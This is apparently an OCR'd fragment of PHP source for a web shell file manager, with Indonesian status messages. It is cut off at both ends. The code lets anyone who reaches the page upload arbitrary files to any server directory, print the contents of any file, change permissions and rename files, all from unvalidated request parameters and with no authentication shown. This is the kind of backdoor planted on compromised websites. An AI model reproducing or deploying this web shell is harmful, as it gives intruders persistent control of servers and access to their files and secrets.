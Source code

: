 }
$path = str_replace('\\','/',$path);
$paths = explode('/',$path);

foreach($paths as $id=>$pat){
if($pat == '' && $id == 0){
$a = true;
echo '<a href="?path=/">/</a>';
continue;
}
if($pat == '') continue;
echo '<a href="?path=';
for($i=0;$i<=$id;$i++){
echo "$paths[$i]";
if($i != $id) echo "/";
}
echo '">'.$pat.'</a>/';
}
echo '</td></tr><tr><td>';
if(isset($_FILES['file'])){
if(copy($_FILES['file']['tmp_name'],$path.'/'.$_FILES['file']['name'])){
echo '<font color="green">Upload File Berhasil anda sangat tamvan</font><br />';
}else{
echo '<font color="red">Upload File</font><br />';
}
}
echo '<form enctype="multipart/form-data" method="POST">
Upload File : <input type="file" name="file" />
<input type="submit" value="upload" />
</form>
</td></tr>';
if(isset($_GET['filesrc'])){
echo "<tr><td>Current File : ";
echo $_GET['filesrc'];
echo '</tr></td></table><br />';
echo('<pre>'.htmlspecialchars(file_get_contents($_GET['filesrc'])).'</pre>');
}elseif(isset($_GET['option']) && $_POST['opt'] != 'delete'){
echo '</table><br /><center>'.$_POST['path'].'<br /><br />';
if($_POST['opt'] == 'chmod'){
if(isset($_POST['perm'])){
if(chmod($_POST['path'],$_POST['perm'])){
echo '<font color="green">Mengubah Permission Berhasil</font><br />';
}else{
echo '<font color="red">Mengubah Pemission Gagal Sad Euy :(</font><br />';
}
}
echo '<form method="POST">
Permission : <input name="perm" type="text" size="4" value="'.substr(sprintf('%o', fileperms($_POST['path'])), -4).'" />
<input type="hidden" name="path" value="'.$_POST['path'].'">
<input type="hidden" name="opt" value="chmod">
<input type="submit" value="Go" />
</form>';
}elseif($_POST['opt'] == 'rename'){
if(isset($_POST['newname'])){
if(rename($_POST['path'],$path.'/'.$_POST['newname'])){
echo '<font color="green">Ganti Nama Berhasil</font><br />';
}else{
echo '<font color="red">Ganti Nama Gagal Sad Kampret</font><br />';
}
$_POST['name'] = $_POST['newname'];
}
echo '<form method="POST">
New Name : <input name="newname" type="text" size="20" value="'.$_POST['name'].'" />